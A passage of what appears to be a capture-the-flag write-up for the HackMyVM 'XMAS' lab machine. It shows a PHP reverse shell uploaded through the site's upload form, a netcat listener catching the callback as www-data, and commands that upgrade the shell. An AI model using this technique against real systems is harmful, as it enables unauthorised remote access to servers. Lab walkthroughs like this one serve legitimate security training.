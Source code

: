 Offcourse Santa does have helpers, we should enumerate them and add to the notes.
- Sugarplum Mary

![image](/assets/img/WriteUp/HackMyVM/XMAS/Pasted image 20231121083516.png){: width="700" height="400" }

It confirms that `Alabaster Snowball` is someone helping Santa.
- Alabaster Snowball

The website has an upload function what could be vulnerable for our attack. We can try to upload a PHP webshell and create a reverse shell. First we have to copy the webshell to our working directory.

```bash
┌──(emvee㉿kali)-[~/Documents/HMV/XMAS]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php ./shell.php
```

Then we need to adjust the IP address (and you could change the port) and save the changes.

![image](/assets/img/WriteUp/HackMyVM/XMAS/Pasted image 20231121084755.png){: width="700" height="400" }

After saving we should upload our webshell.

![image](/assets/img/WriteUp/HackMyVM/XMAS/Pasted image 20231121092524.png){: width="700" height="400" }

After uploading we should start a netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/XMAS]
└─$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...

```
We should refresh the `uploads` directory to see if the webshell is uploaded.

![image](/assets/img/WriteUp/HackMyVM/XMAS/Pasted image 20231121092702.png){: width="700" height="400" }

The webshell is shown, to activate the reverse shell we should click on `shell.php` to create a connection back to our listener.

## Initial access
Now we should check our netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/XMAS]
└─$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.21] 40060
Linux xmas 6.2.0-36-generic #37-Ubuntu SMP PREEMPT_DYNAMIC Wed Oct  4 10:14:28 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 08:34:54 up  1:38,  0 user,  load average: 0.04, 0.09, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 


```
It looks like a connection has been established. Now we should upgrade the shell a bit.
```bash
$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
$ export TERM=xterm-256color  
$ alias ll='ls -lsaht --color=auto'  
```
Now hit `CTRL+Z` on the keyboard to move it to the background
```bash
$ 
zsh: suspended  rlwrap nc -lvnp 1234
```